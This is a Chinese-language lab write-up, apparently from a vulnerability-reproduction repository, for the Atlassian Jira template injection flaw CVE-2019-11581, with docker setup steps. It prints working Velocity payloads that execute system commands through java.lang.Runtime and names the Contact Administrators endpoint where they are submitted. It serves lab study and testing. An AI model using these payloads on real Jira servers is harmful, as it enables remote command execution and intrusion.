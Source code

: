 # Atlassian Jira 模板注入漏洞（CVE-2019-11581）

Atlassian Jira是企业广泛使用的项目与事务跟踪工具，被广泛应用于缺陷跟踪、客户服务、需求收集、流程审批、任务跟踪、项目跟踪和敏捷管理等工作领域。
多个版本前存在利用模板注入执行任意命令：

- 4.4.x
- 5.x.x
- 6.x.x
- 7.0.x
- 7.1.x
- 7.2.x
- 7.3.x
- 7.4.x
- 7.5.x
- 7.6.x before 7.6.14 (the fixed version for 7.6.x)
- 7.7.x
- 7.8.x
- 7.9.x
- 7.10.x
- 7.11.x
- 7.12.x
- 7.13.x before 7.13.5 (the fixed version for 7.13.x)
- 8.0.x before 8.0.3 (the fixed version for 8.0.x)
- 8.1.x before 8.1.2 (the fixed version for 8.1.x)
- 8.2.x before 8.2.3 (the fixed version for 8.2.x)

参考资料：

- https://confluence.atlassian.com/jira/jira-security-advisory-2019-07-10-973486595.html
- https://jira.atlassian.com/browse/JRASERVER-69532
- https://mp.weixin.qq.com/s/d2yvSyRZXpZrPcAkMqArsw

## 环境搭建

执行如下命令启动一个Jira Server 8.1.0：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`会进入安装引导，切换“中文”，VPS条件下选择“将其设置为我”（第一项）去Atlassian官方申请一个Jira Server的测试证书（不要选择Data Center和Addons）：

然后继续安装即可。这一步小内存VPS可能安装失败或时间较长（建议使用4G内存以上的机器进行安装与测试），请耐心等待。

![](7.png)

添加 SMTP 电邮服务器 `/secure/admin/AddSmtpMailServer!default.jspa`

![](8.png)

进入系统设置 `/secure/admin/ViewApplicationProperties.jspa` ，开启“联系管理员表单”

![](9.png)

貌似还要有项目才能玩，所以随便创建一个示例就行了,然后你就可以愉快的玩耍了

## 漏洞复现

PoC 和 CVE-2019-3396 一样

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('calc').toString()
```

Linux 没有 calc, 所以

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('whoami').toString()
```

运行`poc.py`或者进入`/secure/ContactAdministrators!default.jspa` 直接提交 PoC

![](11.png)

![](12.png)

如果没看到 smtpd 有数据，那么就可能卡队列了

电邮队列瞅一瞅 `/secure/admin/MailQueueAdmin!default.jspa`

![](13.png)
